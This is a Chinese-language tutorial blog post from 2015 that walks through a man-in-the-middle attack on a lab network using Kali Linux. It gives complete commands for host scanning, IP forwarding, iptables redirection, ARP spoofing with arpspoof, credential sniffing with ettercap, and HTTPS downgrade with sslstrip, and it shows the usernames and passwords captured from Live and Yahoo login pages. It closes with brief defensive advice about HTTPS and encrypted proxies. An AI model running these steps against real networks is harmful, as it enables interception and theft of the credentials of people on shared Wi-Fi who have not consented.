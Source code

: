 title: MITM中间人攻击
date: 2015-05-18 21:48:00
tags:
- MITM
- Penetration
- Kali
permalink: Man-in-the-Middle-Attack
---

## 一、说明

整理了一下去年的笔记，简单记录Kali Linux中中间人（Man-in-the-middle， MITM）攻击的过程，该攻击手段常用于公开Wi-Fi网络中窃取用户信息。

本例中：

设备 | IP地址
--- | ---
网关IP | 10.10.10.2
Kali Linux 1.1.0a | 10.10.10.128
目标计算机 Windows XP SP3 | 10.10.10.129

使用到的工具有：`ettercap`、`arpspoof`、`sslstrip.py`

## 二、实施攻击

可以先用`namp`工具扫描一下局域网中在线的主机：
```bash
nmap 10.10.10.1/24
```

### 1) 编辑etter.conf
```bash
# if you use iptables:
    #redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
```
去掉`iptables`下`redir_command_on`之前的`#`，打开iptables功能。

### 2) 打开Linux核心封包转递功能
```bash
root@kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward
```

### 3) 设置转发
```bash
root@kali:~# iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```
把80端口的数据转发到8080端口上，之后可以使用ettercap和sslstrip监听这个端口。

### 4) 执行arp欺骗
```bash
root@kali:~# arpspoof  -i eth0 -t 10.10.10.129 10.10.10.2
```
其中`10.10.10.129`是要欺骗的目标机器IP地址，`10.10.10.2`是要伪装成为的网关IP地址。

### 5) 启动ettercap
新打开一个Terminal，启动ettercap，嗅探8080端口的数据：
```bash
root@kali:~# ettercap -T -q -l 8080 -i eth0
```

### 6) 启动sslstrip.py
新打开一个Terminal，进入sslstrip的目录，启动sslstrip.py，分析8080端口的数据，信息将写入目录下的log文件：
```bash
root@kali:~# cd /usr/share/sslstrip/
root@kali:/usr/share/sslstrip# python sslstrip.py -k -l 8080 -w log
```

## 三、接下来...

### 1) http中间人攻击

在目标及其中打开`http://login.live.com/`测试，输入用户名密码，点击登陆，在Kali的ettercap Terminal中会显示嗅探到的`USER`与`PASS`分别为`g2ex@live.com`和`123456`：

```bash
HTTP : 131.253.61.100:80 -> USER: g2ex@live.com  PASS: 123456  INFO: http://login.live.com/login.srf?wa=wsignin1.0&ct=1431940505&rver=6.1.6206.0&sa=1&ntprob=-1&wp=MBI_SSL_SHARED&wreply=https://mail.live.com/?owa=1&owas
```

### 2) HTTPS中间人攻击

因为现阶段Chrome、Firefox和高版本IE都会对伪造的证书进行错误提醒，SSL的中间人攻击已经很容易被察觉。这里为了方便演示，嗅探Yahoo的用户名密码，当使用Firefox提示不受信任的连接时，将网站添加到例外，或者使用IE6访问`https://login.yahoo.com/`，输入用户名密码，点击`Sign In`，在Kali的ettercap Terminal中会显示嗅探到的`USER`与`PASS`分别为`g2ex@yahoo.com`和`123456`：
```bash
HTTP : 98.136.189.41:443 -> USER: g2ex@yahoo.com  PASS: 123456  INFO: https://login.yahoo.com/
```

这时，也可以查看sslstrip.py目录中的log文件，里边已经记录了一些用户名密码了。

## 四、总结

针对HTTP非加密的连接，MITM攻击发生时目标机器是没有感知的，中间人可以截取、修改数据，也可以加入广告、恶意Javascript，比如前段时间大炮攻击Github等网站的事件。

而针对HTTPS的MITM攻击有一定的局限性，除非电脑里已经安装了恶意的证书，否则Chrome、Firefox和最新的IE都会提示证书问题阻止进一步地访问。让人欣喜的是，越来越多的网站加入SSL/TSL行列，常见重要站点的登陆界面也都支持了HTTPS或者私有协议。尤其是当Chrome、Firefox宣布删除CNNIC数字证书之后，我们被GFW中间人的机会就大大减小。

连接不信任的网络，还是老老实实用自己的加密代理吧，踏实、放心。